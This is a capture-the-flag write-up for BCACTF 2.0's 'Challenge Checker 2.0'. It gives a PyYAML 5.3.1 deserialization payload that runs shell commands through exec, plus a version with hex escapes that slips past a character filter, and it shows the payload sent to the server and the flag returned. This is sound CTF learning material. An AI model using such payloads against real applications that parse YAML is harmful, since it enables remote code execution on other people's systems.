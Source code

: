 # Challenge Checker 2.0 

#### Category : misc
#### Points : 200 points
#### Author : anli, Edward Feng

## Challenge
New version, better security, right?

-   [chall.yaml](https://objects.bcactf.com/bcactf2/challenge-checker-2/chall.yaml)
-   [requirements.txt](https://objects.bcactf.com/bcactf2/challenge-checker-2/requirements.txt)
-   [verify.py](https://objects.bcactf.com/bcactf2/challenge-checker-2/verify.py)
-   `nc misc.bcactf.com 49154`

## Solution

#### Bypassing the new version
Comparing to [Challenge Checker](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/Challenge%20Checker), we see from `requirements.txt` that the version has been upgraded to PyYAML 5.3.1 but it still has vulnerabilites.

Looking at https://hackmd.io/@harrier/uiuctf20,
it seems that the update is to block special characters like `.` and `_`.

To bypass this we change our payload from
```bash
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('cat flag.txt')"
 ```
 
 to
 ```bash
 !python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('cat flag\x2etxt')"
 ```
 
 So we basically changed special characters to their hex escaped values in order to bypass the regex check.
 
 #### Getting flag.txt
 Now  we just need to send the payload to the server
 
 ```bash
$ cat payload| ncat misc.bcactf.com 49154                                         
 
Paste in your chall.yaml file, then send an EOF:
bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}
Fatal error: Data must be a dictionary
```

Flag : ```bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}```

#### Note
I used ncat instead of nc to send the payload because I was having some problems sending EOF with nc.
 